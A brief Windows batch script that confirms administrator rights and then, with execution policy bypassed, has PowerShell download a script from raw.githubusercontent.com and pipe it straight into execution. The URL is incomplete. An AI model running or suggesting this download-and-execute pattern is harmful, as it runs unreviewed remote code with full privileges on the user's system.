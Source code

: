@echo off
REM This batch file should be run with administrator privileges.

:: Check if running as administrator
net session >nul 2>&1
if %errorLevel% neq 0 (
    echo You need to run this script as an administrator.
    pause
    exit /b
)

:: Run the PowerShell command with administrator privileges
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm 'https://raw.githubusercontent.com/' | iex"

:: Pause to keep the window open
::pause
